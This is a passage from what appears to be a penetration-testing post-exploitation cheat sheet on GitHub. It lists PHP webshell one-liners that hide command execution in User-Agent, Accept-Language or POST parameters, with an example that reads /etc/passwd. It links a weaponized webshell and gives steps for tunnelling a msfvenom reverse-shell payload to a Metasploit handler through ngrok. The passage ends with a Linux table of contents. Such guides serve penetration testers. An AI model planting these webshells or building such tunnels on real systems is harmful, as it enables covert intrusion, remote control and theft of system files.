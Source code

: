 ```
```

### Hide Webshell Traffic
1. `<?php system($_SERVER['HTTP_USER_AGENT'])?>`: Modify HTTP_USER_AGENT accordingly
2. `<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>`: Hide traffic along with uncommon parameter HTTP_ACCEPT_LANGUAGE
3. `<?php $_=$_POST['1'];  $__=$_POST['2']; $_($__); ?>`
    - Send POST request with variable '1' = 'system' and variable '2' = 'cat /etc/passwd'
    - The term `$_($__)` becomes then `system('cat /etc/passwd')`

### Weevly (Weaponized Webshell)
- Check out: [https://github.com/epinna/weevely3](https://github.com/epinna/weevely3)

<br />

## NGROK (WEBHOOK)
## Info
- Establish remote connection through Internet to LAN-target
- [https://ngrok.com/](https://ngrok.com/)

## HowTo
1. Download ngrok and sign up
2. Unzip ngrok
3. Enter `./ngrok authtoken [token]` 
4. `./ngrok http 8080`
5. New terminal shows ngrok session with public IP:port 
6. Open msfvenom: create payload with lhost and lport matching ngrok's public IP:port 
7. Open msf: Activate multi handler with lhost/lport according to ngrok session info (localhost:8080)
8. Execute payload on target machine to establish remote connection

<br />

# LINUX
## TABLE OF CONTENTS
1. [ARP](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#arp)
2. [MONGODB](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#mongodb)
3. [SHELL (INTERACTIVE & STABLE)](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#shell-interactive--stable)
4. [PORT/PROCESS DETECTION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#portproces-detection)
5. [PRIVILEGE OF ESCALATION (LINUX)](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#privilege-of-escalation-linux)
6. [RESTRICTED SHELL ESCAPE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/4_PostExploitation.md#restricted-shell-escape)
